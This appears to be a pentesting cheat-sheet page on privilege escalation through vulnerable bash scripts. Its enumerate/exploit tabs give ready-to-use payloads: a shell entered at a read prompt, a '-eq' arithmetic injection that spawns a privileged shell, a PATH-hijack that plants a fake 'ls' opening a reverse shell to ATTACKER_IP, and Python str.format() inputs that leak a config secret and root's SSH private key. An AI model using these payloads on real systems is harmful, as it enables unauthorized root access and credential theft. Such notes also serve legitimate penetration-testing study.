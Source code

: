 # Bash

## Theory

Bash scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, bash scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### Shell In Prompt

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes `read -p`. We can input `/bin/bash -i` to get a shell as another user.

```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -p "What's you name: "
```
{% endtab %}

{% tab title="Exploit" %}
We can input `/bin/bash -i` to get a shell.

```bash
$ sudo /usr/bin/sudo-script.sh

What's you name: /bin/bash -i
```
{% endtab %}
{% endtabs %}

### Bash eq

{% tabs %}
{% tab title="Enumerate" %}
If a bash script use the `-eq` comaparison, it's vulnerable to arbitrary command execution.

```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```
{% endtab %}

{% tab title="Exploit" %}
To execute arbitrary command, answer this question as below. We have to Inject arbitrary command before the correct number (42).

```bash
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/bin/bash -p >&2)]+42

#Or execute your own malicious script
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/tmp/shell.elf)]+42
```

{% hint style="info" %}
`a[$(/tmp/shell.elf)]` will allow us, by evaluating the content of the array, to execute our script
{% endhint %}
{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes another command **without specifying the path.** We can abuse it and get a privilege escalation.

```bash
$ cat /usr/bin/vuln-suid-script.sh

#!/bin/bash
ls /root/var/file
```
{% endtab %}

{% tab title="Exploit" %}
We can generate a malicious file in the `/tmp` folder named as the command called without full path

```bash
#Generate a payload
echo "bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'" > /tmp/ls
chmod +x /tmp/ls

#Change Path env variable and execute the script
export PATH=/tmp:$PATH
/usr/bin/vuln-suid-script.sh
```
{% endtab %}
{% endtabs %}

### Unquoted Expression Injection

{% tabs %}
{% tab title="Enumerate" %}
The `str.format()` string method was introduced in Python 3 was later also added to Python 2.7. It allows multiple substitutions and value formatting. Vulnerability comes when our Python app uses `str.format()` in the **user-controlled string**. This vulnerability may lead attackers to get **access to sensitive information**.

Here is an example of a vulnerable code:
```python
# Let us assume this CONFIG & SECRET holds some sensitive information
CONFIG = {
	"KEY": "ASXFYFGK78989"
}
SECRET = [line.strip() for line in open("/root/.ssh/id_rsa")]

class PeopleInfo:
	def __init__(self, fname, lname):
		self.fname = fname
		self.lname = lname

def get_name_for_avatar(avatar_str, people_obj):
	return avatar_str.format(people_obj = people_obj)


# Driver Code
people = PeopleInfo('GEEKS', 'FORGEEKS')

# case 1: st obtained from user
st = input()
res = get_name_for_avatar(st, people_obj = people)
print(res)
```
{% endtab %}

{% tab title="Exploit" %}
To extract sensitive informations we can give the following strings as input:
```python
#We can extract the Config key with the following input
{people_obj.__init__.__globals__[CONFIG][KEY]}
#Output
ASXFYFGK78989

#We can extract the SSH key with the following input
SECRET_{people_obj.__init__.__globals__[SECRET]}_SECRET
#Output
SECRET_['-----BEGIN OPENSSH PRIVATE KEY-----', 'b3BlbnNzaC1rZXk'[...]]_SECRET

#Or we can try with the "self" variable (won't work here)
{self.__init__.__globals__[CONFIG][KEY]}
```
{% endtab %}
{% endtabs %}
